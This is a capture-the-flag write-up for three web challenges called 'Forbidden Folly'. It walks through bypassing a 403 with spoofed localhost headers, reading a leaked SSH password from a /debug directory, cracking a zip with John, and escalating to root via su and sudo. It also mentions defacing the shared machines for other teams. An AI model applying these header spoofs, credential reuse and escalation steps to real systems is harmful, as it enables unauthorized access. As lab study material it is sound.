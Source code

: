 # Forbidden Folly 1, 2 and 3

Category: Web  
Creator : Rem1nd

## Forbidden Folly 1, 50 points
"Welcome to Hacker2, where uptime is a main prority: http://172.31.2.90"

Alright. So we open it. Gives 403 Forbidden in the browser. Same when using curl.
The uptime hint in the challenge text strongly implies the site is accessible somehow, however. We look around, try requesting various common pages, but everything is met with 403 Forbidden. Time to try looking at request headers.

Nothing appears weird when inspecting browser traffic. `curl -v http://172.31.2.90` shows nothing interesting either. Let's throw all the shady HTTP headers on curl that we can find, and see if one of the payloads yield something interesting:

```
$ curl -s 'http://172.31.2.90/' \
-H 'Connection: keep-alive' \
-H 'Cache-Control: max-age=0' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' \
-H 'Accept-Language: en-US,en;q=0.9,da;q=0.8' \
-H 'X-Originating-IP: 127.0.0.1' \
-H 'X-Forwarded-For: 127.0.0.1' \
-H 'X-Remote-IP: 127.0.0.1' \
-H 'X-Remote-Addr: 127.0.0.1' | tee index.html | file -
/dev/stdin: HTML document, ASCII text, with very long lines
$ see index.html
```

Aha! We got a "HackerTwo System Status" page!  
It has nothing we can interact with. But maybe we won't need to...

```
$ grep -i flag index.html 
    <!-- flag(Th4t_WAS_To0_EASY} -->
```

## Forbidden Folly 2, 50 points
"It seems like out of towners are terrible at scavenger hunts: http://172.31.2.91"

It turns out the only header we needed was this:

```
$ curl -s 'http://172.31.2.91' -H 'X-Forwarded-For: 127.0.0.1'
```

But the page we reach is exactly the same as before (md5sum checks out). So we back-track a few steps and try out various common file and folder names again.
'/debug' yields a file listing with a 'secret.txt' file. Bingo.

```
$ curl -s 'http://172.31.2.91/debug/secret.txt' -H 'X-Forwarded-For: 127.0.0.1'
Chad,

I've created an account for you here on the system. You can log into ssh with the user chad and the password FriendOfFolly^.
Please delete this message after you've read it.

PS: flag{Th3_nexT_0ne_iS_D1ff1cul7}

Thanks,
Grace
```

Thanks Grace!

Challenge completed. At this time Forbidden Folly 3 was not yet released. Let's go solve it!

```
$ sshpass -p 'FriendOfFolly^' ssh chad@172.31.2.91
chad$ find
[...]
./secretpassword.zip
chad$ find /var/www/
[...]
^D
$ sshpass -p 'FriendOfFolly^' scp chad@172.31.2.91:~/secretpassword.zip .
$ unzip -l secretpassword.zip 
Archive:  secretpassword.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       11  2018-07-05 00:14   secretpassword
---------                     -------
       11                     1 file
$ unzip secretpassword.zip 
Archive:  secretpassword.zip
[secretpassword.zip] secretpassword password: 
```

Damn.

The machine didn't have any other interesting accessible files, nor obvious escalation opportunities. But then again, it's a web challenge. We move on, but not before leaving a charming splash screen for our opponents to find... And the same on chad@172.31.2.92.

Eventually John succeeds cracking the password. 'poopstinks'. secretpassword contains 'FL0WMATIC^'.

Perhaps we solved Forbidden Folly 3? We won't know for a while...

## Forbidden Folly 3, 100 points
"Priv esc is the name of the game: http://172.31.2.92"

It's up! Submit flag 'FL0WMATIC^'! 'poopstinks'? 'FriendOfFolly^'...?

Alas. It wasn't to be. But look at that, the message says to escalate. We already checked many escalation opportunities but didn't find much of interest. However, there were a few user accounts, including root, chad, firstsetup and hopper. And we just got some possible passwords, leaving us with the following candidates: 'FriendOfFolly^', 'poopstinks' and 'FL0WMATIC^'.

chad isn't allowed to sudo. `sudo` needs a password. `su` shows root doesn't have one of the above passwords. firstsetup is probably an account used for setup. hopper sounds interesting...

```
$ sshpass -p 'FriendOfFolly^' ssh chad@172.31.2.91
chad$ su hopper
Password:
su: Authentication failure
chad$ su hopper
Password:
hopper$ # yay!
```

Now, hopper on his own turned out to not be interesting. But I wonder...

```
hopper$ sudo id
[sudo] password for hopper:
uid=0(root) gid=0(root) groups=0(root)
hopper$ sudo find /root
[...]
/root/flag.txt
hopper$ sudo cat /root/flag.txt
flag{D3STroyeR_0f_FollY}
```

Foiled!
